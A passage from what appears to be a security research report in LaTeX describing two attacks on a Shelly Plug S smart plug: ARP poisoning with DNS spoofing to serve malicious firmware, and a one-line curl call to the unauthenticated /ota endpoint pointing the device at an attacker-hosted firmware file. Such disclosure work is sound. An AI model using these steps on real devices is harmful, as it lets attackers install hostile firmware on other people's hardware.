    
\includegraphics[width=\linewidth]{Images/Fase2/MITM1.jpg}
    \caption{Variant A: ARP poisoning toward the device (top-left) and toward the gateway (bottom-left), DNS spoofing (top-right), and rogue HTTP server with the malicious firmware bundle (bottom-right)}
    \label{fig:mitm_setup}
\end{figure}

\subsubsection{Attack Execution and Results}
When the user clicks 'Update Firmware Version' in the web UI the following chain of events occurs:

\begin{enumerate}
    \item The Shelly Plug S sends a DNS query for \texttt{firmware.shelly.cloud}.
    \item The DNS query, routed through the attacker's machine (via ARP poisoning), is intercepted by \texttt{dnsspoof}, which responds with the attacker's IP address (192.168.1.20).
    \item The device sends an HTTP \texttt{GET} request to the resolved IP (the attacker's server), believing it is communicating with the official Shelly cloud.
    \item The HTTP server serves the malicious \texttt{SHPLG-S.zip} archive in response.
    \item The device applies the firmware update without any verification of its origin.
\end{enumerate}

\noindent Figure~\ref{fig:mitm_dns_intercept} captures the exact moment of a successful attack: the DNS spoofing pane (top-right) shows the intercepted DNS query (\texttt{192.168.1.19.4096 > 192.168.1.1.53: 41728+ A? firmware.shelly.cloud}), while the rogue HTTP server (bottom-right) logs the subsequent firmware download (\texttt{"GET /gen1/SHPLG-S.zip HTTP/1.1" 200}). The left panes show the continuous ARP poisoning maintaining the man-in-the-middle position.

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{Images/Fase2/MITM2.png}
    \caption{Variant A: the DNS query for \texttt{firmware.shelly.cloud} is intercepted, and the device downloads the malicious firmware from the server (bottom-right)}
    \label{fig:mitm_dns_intercept}
\end{figure}

\noindent What makes this variant so dangerous is that it's \textbf{completely invisible to the user}. To the device, it looks like a perfectly normal firmware update from the official server. No weird HTTP requests were injected and no strange endpoints was contacted.


\subsection{Variant B: Direct OTA Endpoint Exploitation}
The second variant takes a fundamentally different approach. Rather than intercepting the device's legitimate update flow, it directly \textbf{abuses the unauthenticated \texttt{/ota} HTTP endpoint} exposed by the original Shelly firmware. 

\medskip 
\noindent From the \textit{Official Shelly API Documentation} (Figure ~\ref{fig:OtaDocumentation}) we discover that this endpoint accepts a \texttt{url} query parameter that instructs the device to download and apply a firmware bundle from an \emph{arbitrary} URL, with \textbf{no authentication, no origin validation, and no cryptographic signature verification}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{Images/Fase2/OTAdocumentation.png}
    \caption{Snapshot of the Official Shelly Gen 1 API Documentation}
    \label{fig:OtaDocumentation}
\end{figure}

\subsubsection{Attack Execution}
This variant requires significantly less infrastructure: only an HTTP server hosting the malicious firmware; no ARP poisoning or DNS spoofing is required. The attacker simply needs network-level reachability to the device's HTTP interface.

\medskip
\noindent The attack is triggered with a single \texttt{curl} command:

\begin{bashcode}
curl http://192.168.1.19/ota?url=http://192.168.1.20/gen1/SHPLG-S.zip    
\end{bashcode}

\noindent This command instructs the Shelly Plug S (at 192.168.1.19) to download the firmware bundle from the attacker's HTTP server (at 192.168.1.20) and immediately apply it. The device responds with a JSON object confirming the update process has been initiated, as shown in Figure~\ref{fig:mitm_trigger}.

\begin{figure}[H]
    \centering
